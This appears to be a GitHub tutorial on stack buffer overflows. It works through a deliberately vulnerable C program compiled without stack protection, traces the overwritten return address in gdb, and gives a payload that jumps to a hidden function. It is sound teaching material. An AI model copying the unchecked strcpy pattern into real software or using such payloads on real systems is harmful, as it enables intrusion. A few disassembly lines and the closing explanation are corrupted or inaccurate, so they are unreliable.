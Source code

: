 # bof

<strong>Buffer overflow</strong> is one of the most common software vulnerability. It happens when we write more data that should be stored in a buffer. 

<p>Let's see one example about it:</p>

```
#include <stdio.h>
#include <string.h>

void secret() {
    printf("You shouldnt be here\n");
}

void function(const char* input) {
    char data[10];
    
    strcpy(data, input);
    
    if (!strcmp(data, "something")) { // " " -> any value until 10 bytes
        printf("normal stuff\n");
    } else {
        printf("Try again\n");
    } 
}

int main (int argc, const char* argv[]) {

    if (argc > 1) {
        function(argv[1]);
    } else {
        printf("You need at least one argument\n");
    }
    
    return 0; 
}
```

<p>There is a problem here: <strong>strcpy</strong>. This function copies the input to destination without having control of the amount, in other words, we can save more than 10 bytes and it will be ok, because the function doesn't check if it matches with the array's total bytes.</p>

<p>Running the code:</p>
```
gcc -m32 overflow.c -o overflow 
./overflow AAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>The result is:</p>
```
Try again. 
*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

<p>Then I write it:</p>
```
gcc -m32 overflow.c -o overflow -fno-stack-protector
./overflow AAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>The new result is:</p>
```
Try again.
Segmentation fault (core dumped)
```

<p>I put:</p>
```
gdb overflow
```

<p>Now I can command stuffs to gdb </p>
```
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAA
```

<p>I receive:</p>
```
Starting program: /.../ AAAAAAAAAAAAAAAAAAAAAAAAA
Try Again

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

<p>So I would like to see registers info</p>
```
(gdb) info registers
```

```
eax         0xa      10
ecx         0x56558160      1448444256
edx         0xf7fb7890      -134514544
ebx         0x41414141      1094795585
esp         0xffffd100      0xffffd100
ebp         0x41414141      0x41414141
esi         0xf7fb6000      -134520832
edi         0x0      0      
eip         0x41414141      0x41414141
eflags      0x10282  [ SF UF RF ]
cs          0x23     35
ss          0x2b     43
ds          0x2b     43
es          0x2b     43
fs          0x0      0
gs          0x63     99
```

<p>If I  write it (in below) to get more info about the main function:</p>
```
(gdb) disas main
``` 

<p>I have this result:</p>
``` 
Dump of assembler code for function main:
   0x56555612 <+0>:     lea     0x4(%esp),%ecx
   0x56555616 <+4>:     and     $0xfffffff0,%esp
   0x56555619 <+7>:     pushl   -0x4(%ecx)
   0x5655561c <+10>:    push    %ebp
   0x5655561d <+11>:    mov     %esp,%ebp
   0x5655561f <+13>:    push    %ebx
   0x56555620 <+14>:    push    %ecx
   0x56555621 <+15>:    call    0x5655566b <__x86.get_pc_thunk.ax>
   0x56555626 <+20>:    add     $0x19aa,%eax
   0x5655562b <+25>:    mov     %ecx,%edx
   0x5655562d <+27>:    cmpl    $0x1,(%edx)
   0x56555630 <+30>:    jle     0x56555648 <main+54>
   0x56555632 <+32>:    mov     0x4(%edx),%eax
   0x56555635 <+35>:    add     $0x4,%eax
   0x56555638 <+38>:    mov     (%eax),%eax
   0x5655563a <+40>:    sub     $0x,%esp
   0x5655563d <+43>:    push    %eax
   0x5655563e <+44>:    call    0x565555a8 <function>
   0x56555643 <+49>:    add     $0x10,%esp
   0x56555646 <+52>:    jmp     0x5655565c <main+74>
---Type <return> to continue, or q <return> to quit
   0x56555648 <+54>:    sub     $0xc,%esp
   0x5655564b <+57>:    lea     -0x18a8(%eax),%edx
   0x56555651 <+63>:    push    %edx
   0x56555652 <+64>:    mov     %eax, %ebx
   0x56555654 <+66>:    call    0x56555410 <puts@plt>
   0x56555659 <+71>:    add     $0x10,%esp
   0x5655565c <+74>:    mov     $0x0,%eax
   0x56555661 <+79>:    lea     -0x8(%ebp),%esp
   0x56555664 <+82>:    pop     %ecx
   0x56555665 <+83>:    pop     %ebx
   0x56555666 <+84>:    pop     %ebp
   0x56555667 <+85>:    lea     -0x4(%ecx),%esp
   0x5655566a <+88>:    ret
End of assembler dump.
``` 

<p>As we see, the main funcion calls the function called "function" in +44.</p>

<p>When we execute the CALL instruction to perform the function call, the instruction pointer (eip) of the next instruction will be stored in the stack. Then we change the address to the function address and execute the function. Also, we need to save the address in the stack to know where to go back.</p>

<p>Now we know why the eip has the value 0x41414141,it's because we overwrite the return address on the stack when the function ends. It takes the address from the stack and puts it in the eip, so the processor will execute the instructions from this area, but it's an unmapped region, in other words, segmentation fault occurs.</p>

<p>We're going to explore more about it:</p>
``` 
disas secret
``` 

``` 
Dump of assembler code for function secret:
   0x5655557d <+0>:     push    %ebp
   0x5655557e <+1>:     mov     %ebp,%esp
   0x56555580 <+3>:     push    %ebx
   0x56555581 <+4>:     sub     $esp,%0x4
   0x56555584 <+7>:     call    0x5655566b <__x86.get_pc_thunk.ax>
   0x56555589 <+12>:    add     $0x1a47,%eax
   0x5655558e <+17>:    sub     $0xc,%esp
   0x56555591 <+20>:    lea     -0x18e0(%eax),%edx
   0x56555597 <+26>:    push    %edx
   0x56555598 <+27>:    mov     %eax,%ebx
   0x5655559a <+29>:    call    0x56555410 <puts@plt>
   0x5655559f <+34>:    add     $0x10,%esp
   0x565555a2 <+37>:    nop
   0x565555a3 <+38>:    mov     -0x4(%ebp),%ebx
   0x565555a6 <+41>:    leave
   0x565555a7 <+42>:    ret
End of assembler dump.
``` 

<p>The secret adress is <strong>0x5655557d +0</strong>. How I know this? Just because it is the first instruction on the function. In addition, if I do more tests like using AAAAAAAAAAAAAAAAAAAAAABBBB, the eip changes to 0x42424242. So after 22 bytes (22 times A) we have the saved value of the return function, so let's put 0x5655557d on it.</p>

```
(gdb) run $(python -c 'print "A" * 22 + "\x7d\x55\x55\x56"')
``` 

``` 
Try again.
You shouldnt be here

Program received signal SIGSEGV, Segmentation fault.
0xffffd300 in ?? ()
``` 

















































<p>There are several reasons that compilation is aborted, but in this case it may be because we are accessing an invalid memory address (unmapped memory).</p>

<p></p>
